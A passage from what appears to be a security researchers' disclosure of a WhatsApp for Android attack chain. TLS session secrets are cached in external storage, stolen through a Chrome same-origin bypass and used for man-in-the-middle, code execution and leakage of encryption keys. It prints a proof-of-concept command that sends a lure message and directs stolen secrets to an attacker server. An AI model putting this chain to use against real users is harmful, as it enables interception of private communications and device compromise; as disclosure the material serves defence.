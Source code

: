Again, we see that `context.getExternalCacheDir()` is consulted to identify the path where cached TLS session items will be stored.

An adversary that has somehow gained access to the external cache directory (e.g. through a rogue or vulnerable application) can steal TLS 1.3 PSK keys and TLS 1.2 Master Secrets. As already discussed, this could lead to successful man-in-the-middle attacks.

**For the purposes of this article we will use the previously described SOP bypass vulnerability in Chrome, to remotely access the TLS session secrets.** All an attacker has to do is lure the victim into opening an HTML document attachment. WhatsApp will render this attachment in Chrome, over a content provider, and the attacker's Javascript code will be able to steal the stored TLS session keys.

Convincing a user to actually open an HTML document is an art by itself. However, as it will become clear later, the _protobuf_-based WhatsApp messaging protocol could aid the attacker in this respect.

From TLS secrets collection to Remote Code Execution
----------------------------------------------------

This section explores two attacks against WhatsApp, one leading to code execution and one leading to leakage of Noise protocol keys, used in end-to-end encryption of user communications. The former requires the TLS 1.2 man-in-the-middle capability, while the latter requires a combination of TLS 1.2 and TLS 1.3 man-in-the-middle capabilities. As the TLS 1.3 man-in-the-disk vulnerability was patched at the time we were creating the demo for the issue, we emulated the TLS 1.3 man-in-the-middle capability through **Frida** in the second attack (forcing connections over TLS 1.2). If you have access to a version of the app where both TLS man-in-the-disk vulnerabilities exist, then it is possible to carry out the second attack without emulation, by setting up two OpenSSL instances; one for TLS 1.2 MitM and one for TLS 1.3 (WaTLS) MitM.

Both attacks start with an _information gathering_ phase where the remote attacker will collect the TLS session secrets.

In the video above, on the left, running on the dark theme, we can see the attacker device, and on the right, running on the light theme, the victim device. The attacker begins information gathering by executing **main.py** of the proof-of-concept toolset, which makes use of Python and Frida to control the attacking device. This is how the command looks like:

```
python main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 images/the_guardian.jpg \
    MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas" -r


```

Argument `-s ANDROID_SERIAL` instructs **ADB** to connect to the attacker's device with the specified device serial number. Arguments `-a` and `-p` determine the IP address and port of the web server, where the SOP exploit will POST the extracted secrets to using AJAX, while `-r` instructs our PoC to run a simple HTTP server on the local PC. Alternatively one could have specified the IP of a remote web server the attacker controls. The three non-positional arguments are (1) the path to an image to show as a fake message preview at the victim's side, (2) the victim's mobile number and, (3) a string to show as a caption below the fake preview.

The PoC uses Frida hooks on a WhatsApp method responsible for sending document messages. It attaches the fake message preview and caption in the outgoing protocol buffer to make the result more attractive for the victim to click on. In this demonstration, the remote attacker sends to the victim what it looks like a link to an interesting article on a newspaper. Upon clicking on the message, the victim is presented with the standard Android application picker. The message's mime type, as sent in the WhatsApp protocol buffer headers, is set to'text/html', so Chrome is usually the only entry in the aforementioned picker.
